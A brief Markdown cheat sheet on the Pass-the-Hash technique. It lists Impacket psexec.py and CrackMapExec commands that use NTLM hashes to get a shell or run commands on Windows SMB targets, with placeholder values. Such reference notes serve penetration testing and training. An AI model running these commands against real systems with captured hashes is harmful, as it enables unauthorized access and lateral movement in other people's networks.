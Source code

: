 # Pass-The-Hash (PtH)

## Tools
- `psexec.py` (Impacket)
- `CrackMapExec`

## Commands
```bash
# Impacket (get shell)
psexec.py DOMAIN/user@TARGET_IP -hashes LMHASH:NTHASH

# CrackMapExec (execute cmd)
crackmapexec smb TARGET_IP -u user -H NTHASH -x "whoami"
```
## Theory
- Uses **NTLM hashes** (no plaintext needed).
- Works against **Windows SMB**.